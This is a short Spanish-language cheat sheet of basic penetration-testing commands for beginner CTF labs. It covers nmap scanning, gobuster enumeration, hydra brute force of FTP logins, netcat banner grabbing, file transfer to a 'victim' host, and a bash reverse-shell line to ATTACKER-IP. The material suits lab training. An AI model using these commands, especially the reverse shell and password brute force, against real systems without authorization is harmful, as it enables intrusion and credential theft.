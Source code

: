 ------------------ CHEAT SHEET DE PENTESTING BÁSICO ------------------------------

Recopilación de comandos útiles que te ayudarán en la mayoría de laboratorios CTF
de iniciación (TryHackMe, HackTheBox, etc).


-- Escaneo con Nmap
```bash
nmap -sC -sV -oN scan.txt <IP>
````
* -sC: scripts por defecto
* -sV: detección de versiones
* -oN: salida en archivo


-- Enumeración web con Gobuster
```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-meidum.txt
````
* Busca rutas y directorios ocultos


-- Fuerza bruta con Hydra
```bash
hydra -l admin -P rockyou.txt ftp://<IP>
````
* -l: usuario
* -P: diccionario de contraseñas


-- Captura de banner con Netcat
```bash
nc <IP> <puerto>
````
* Ideal para detectar servicios manualmente


-- Conexión inversa Bash (si puedes subir una shell)
```bash
bash -i >& /dev/tcp/ATTACKER-IP/PORT 0>&1
````


-- Subir archivo con Python (servidor)
```bash
python3 -m http.server 8080
````
* En tu máquina atacante


-- Descargar archivo desde máquina víctima
```bash
wget http://<IP>:8080/nombrearchivo
curl http://<IP>:8080/nombrearchivo -o nombrearchivo
````


-- Consejos finales
* Usa whoami, hostname, ip a, netstat -antup,ps aux para reconocimiento
* Guarda todos los resultados (screenshots, outputs)
* Documenta cada paso para futuras referencias


